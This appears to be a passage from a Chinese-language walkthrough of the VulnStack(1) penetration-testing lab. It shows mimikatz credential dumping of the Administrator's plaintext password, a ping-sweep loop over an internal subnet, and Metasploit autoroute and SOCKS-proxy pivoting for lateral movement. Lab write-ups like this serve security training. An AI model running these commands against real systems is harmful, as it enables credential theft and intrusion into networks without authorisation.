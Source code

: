 upload /home/kali2021/桌面/Intranet/mimikatz.exe c://

shell进入win7
运行mimkatz.exe
先权限提升
privilege::debug
再使用
sekurlsa::logonPasswords
获得Administrator的明文密码

我们进一步渗透入内网 对域中其他主机进行渗透

# 横向移动
在Windows cmd中 可以采用如下命令探测内网存活主机
指定步长 对内网段枚举ping
![img](VulnStack(1)/images/image-1.png)

for /L %I in (1,1,254) DO @ping -w 1 -n 1 192.168.52.%I | findstr "TTL=" 
=> 138,141,143
138:DC
143:win7自己
141:内网隐藏主机


接下来采用"跳板攻击"
> 当我们拿下内网的一台主机权限后，为进一步扩大战果，攻陷内网其他主机，我们可以把沦陷主机作为跳板进一步内网渗透

获取被攻击目标内网地址网段:
run autoroute -s 192.168.52.0/24

扫描有效网卡的整个C段的信息以及查看路由添加情况：
run autoroute -p

成功添加 192.168.52.0

autoroute添加完路由后，我们可以利用msf自带的sock4a模块进行Socks4a代理:auxiliary/server/socks_proxy

```
use auxiliary/server/socks_proxy
set srvport 1080 设置端口1080
 
run 运行
```